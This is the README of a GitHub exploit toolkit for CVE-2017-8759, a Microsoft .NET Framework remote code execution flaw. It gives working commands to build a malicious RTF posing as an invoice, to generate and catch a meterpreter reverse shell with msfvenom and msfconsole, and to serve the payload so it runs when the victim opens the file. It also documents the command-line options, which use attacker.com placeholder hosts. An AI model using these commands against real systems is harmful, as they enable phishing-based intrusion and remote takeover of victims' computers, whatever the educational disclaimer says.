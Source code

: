 ## Exploit toolkit CVE-2017-8759 - v1.0

Exploit toolkit CVE-2017-8759 - v1.0 is a handy python script which provides pentesters and security researchers a quick and effective way to test Microsoft .NET Framework RCE. It could generate a malicious RTF file and deliver metasploit / meterpreter / other payload to victim without any complex configuration. 

### Disclaimer

This program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (bhdresh) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using this program you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not bhdresh's responsibility.

### Release note:

Introduced following capabilities to the script

	- Generate Malicious RTF file
	- Exploitation mode for generated RTF file

Version: Python version 2.7.13

### Scenario: Deliver local meterpreter payload
###### Video Tutorial: https://www.youtube.com/watch?v=46jEa1bmORM
###### Example commands
	1) Generate malicious RTF file
	   # python cve-2017-8759_toolkit.py -M gen -w Invoice.rtf -u http://192.168.56.1/logo.txt
	2) (Optional, if using MSF Payload) : Generate metasploit payload and start handler
	   # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
	   # msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.1; run"
	3) Start toolkit in exploit mode to deliver local payload
	   # python cve-2017-8759_toolkit.py -M exp -e http://192.168.56.1/shell.exe -l /tmp/shell.exe

### Command line arguments:

    # python cve-2017-8759_toolkit.py -h

    This is a handy toolkit to exploit CVE-2017-8759 (Microsoft .NET Framework RCE)

    Modes:

    -M gen                                          Generate Malicious file only

         Generate malicious RTF/PPSX file:

          -w <Filename.rtf>                   Name of malicious RTF file (Share this file with victim).

          -u <http://attacker.com/test.txt>   Path of remote txt file. Normally, this should be a domain or IP where this                                          tool is running.
	                                          For example, http://attackerip.com/test.txt (This URL will be included in 	                                              malicious RTF file and will be requested once victim will open malicious RTF file.

					      
    -M exp                                          Start exploitation mode

         Exploitation:
	  
          -p <TCP port:Default 80>            Local port number.

          -e <http://attacker.com/shell.exe>  The path of an executable file / meterpreter shell / payload  which needs to be executed on target.

          -l </tmp/shell.exe>                 Specify local path of an executable file / meterpreter shell / payload.

### Author

@bhdresh

### Credit

@Voulnet, @vysec, @bhdresh

### Bug, issues, feature requests

Obviously, I am not a fulltime developer so expect some hiccups

Please report bugs, issues through https://github.com/bhdresh/CVE-2017-8759/issues/new
